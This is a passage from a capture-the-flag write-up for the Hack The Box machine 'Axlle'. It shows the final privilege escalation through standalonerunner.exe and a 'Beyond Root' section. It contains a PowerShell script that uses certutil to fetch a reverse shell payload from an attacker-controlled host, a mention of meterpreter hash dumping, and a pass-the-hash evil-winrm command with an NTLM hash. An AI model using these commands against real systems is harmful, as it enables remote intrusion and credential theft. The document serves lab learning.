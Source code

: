 2. Create a directory with the following structure `myTestDir\working`.

3. Create an empty `rsf.rsf` file inside `myTestDir\working`.

4. Create `command.txt` with the reverse shell command in the same directory as `standalonerunner.exe`. (for the reverse shell I used PowerShell #3 (Base64) on [revshells.com](https://www.revshells.com/))

We can use the powershell script below to automate all these steps.

```powershell
certutil.exe -urlcache -split -f "http://YOUR_IP:WEBSERVER_PORT/reboot.rsf" "reboot.rsf"

New-Item -Path "myTestDir\working" -ItemType "Directory" -Force

New-Item -Path "myTestDir\working" -Name "rsf.rsf" -ItemType "File"

certutil.exe -urlcache -split -f "http://YOUR_IP:WEBSERVER_PORT/command.txt" "command.txt"
```

![exploit script](/images/HTB-Axlle/exploit_script.png)

After a few seconds we get a shell as administrator and we can read the root flag.

![root flag](/images/HTB-Axlle/root_flag.png)

## Beyond Root

Our access to the administrator account is a long and tedious process. In order to establish persistence we can switch to a meterpreter shell and dump the hashes with `hashdump`. We then recover the password hashes of many accounts on the target.

![hashdump command](/images/HTB-Axlle/hashdump.png)

We do not even need to crack it, since we can use them with evil-winrm in order to login.

```
evil-winrm -u "Administrator" -H 6322b5b9f9daecb0fefd594fa6fafb6a -i dc.axlle.htb
```

![administrator login via evil-winrm](/images/HTB-Axlle/Admin-login.png)

Thank you for reading this write up!
